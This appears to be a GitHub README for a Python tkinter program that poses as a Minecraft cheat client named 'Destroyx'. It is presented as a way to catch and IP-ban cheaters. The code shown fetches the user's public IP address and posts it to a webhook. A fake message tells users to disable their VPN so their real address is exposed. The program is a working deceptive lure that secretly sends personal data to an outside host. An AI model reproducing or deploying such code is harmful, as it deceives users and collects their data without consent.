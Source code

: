 # fake-minecraft-cheat
A software used to get the cheaters ip and ip ban them in servers.
# About
This cheat is a software which sends the ip to a webhook and then minecraft servers can ip ban them.
# Modify
Clone
```sh
git clone https://github.com/shourgamer2/fake-minecraft-cheat
```
How the code works 
import
```python
import tkinter 
from tkinter import *
from tkinter import messagebox
import socket
from requests import get
import requests
import os 
```
Load function
```python
def load():
    messagebox.showinfo("Load", "Loading,We will check your system and if your system is fine we will load the cheats")
```
Alert to make sure cheaters don't fake their ip
```python
messagebox.showinfo("No vpn", "We use a third party api to inject the cheats and the api does not work if vpn is active.Sorry you have to do this as destroyx is not a modified client its a app not a client so we have to use a api ")
```
Send it
```python
ip = get('https://api.ipify.org').text
webhookURL = ''
hostname = socket.gethostname()    
IPAddr = socket.gethostbyname(hostname) 
# Build the structure  of  the message 
data = {
    'username': 'ip',
    'embeds': [{
        'title': 'ip found',
        'description': "ip " + ': ' + ip,
    }]
}
# Send it 
result = requests.post(webhookURL, json = data)

try:
    result.raise_for_status()
except:
    pass
```
Window
```python
root = Tk()
root.title("Destroyx")
root.geometry("400x400")
root.iconbitmap("appicon.ico")
# Wigets
Heading = Label(text="Destroyx").pack()
cheatno1 = Button(text="Aimbot",command=load).pack()
cheatno2 = Button(text="Auto Mine",command=load).pack()
cheatno3 = Button(text="Auto kill",command=load).pack()
cheatno4 = Button(text="Auto win (bedwars only)",command=load).pack()
cheatno5 = Button(text="Auto win (Skywars only)",command=load).pack()
cheatno6 = Button(text="Auto bridge ",command=load).pack()
cheatno7 = Button(text="Free sword",command=load).pack()
cheatno8 = Button(text="Invisible",command=load).pack()




# Run it 
root.mainloop()
```
